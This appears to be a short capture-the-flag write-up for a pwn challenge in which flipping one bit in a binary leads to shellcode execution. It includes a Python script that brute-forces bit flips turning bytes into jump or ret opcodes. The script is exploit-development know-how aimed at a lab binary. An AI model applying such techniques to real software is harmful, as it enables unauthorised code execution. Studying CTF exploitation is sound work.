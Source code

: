 # Pwn

## Baby Exploit

Use the binary from *baby rev*. And the server script can be found in my github repo *CTF Challenge*

Basically, the server script asks us to specify one byte to be changed. Then, we need to execute shellcode.

First, we need to read some shellcode, so **0x80** - **0x96** cannot be changed.

**0x98** - **0xA6** will erase our input byte by byte, so we must change the content here. Also, we need to jump to our input, so the byte after changing must be some jmp instructions or ret. We can use a script to brute force:
```python
from tempfile import NamedTemporaryFile
from os import chmod
from subprocess import CalledProcessError, TimeoutExpired, check_call
from shutil import copyfile

for bytepos in range(0x98, 0xa8):
  for bitpos in range(0, 7):
  
    yourFile = NamedTemporaryFile(delete=True)
    copyfile("./chall",yourFile.name)
    chmod(yourFile.name,0o777)

    if(bytepos < 0x80 or bytepos > 0x139 or bitpos < 0 or bitpos > 7 ):
      print("behave kid, behave...ò.ó")
      exit(-1)

    patch = open(yourFile.name,"r+b")
 
    patch.seek(bytepos, 0)
    c = patch.read(1)
    toggled = bytes( [ ord(c)^(1<<bitpos) ] ) 
    t = ord(toggled)

    # Differnt kind of jump instructions and ret
    if (t in [0xc3, 0xeb, 0x75, 0x74, 0x78, 0x70, 0x71, 0x78, 0x79, 0x72, 0x73, 0x76, 0x77, 0x7c, 0x7d, 0x7e, 0x7f, 0x7a, 0x7b, 0xe3]):
      print("bytepos: " + str(hex(bytepos)) + "; bitpos: " + str(hex(bitpos)) + "; toggeld: " + hex(t))

    patch.seek(-1, 1) 
    patch.write(toggled)
    patch.close()

    yourFile.file.close()
```
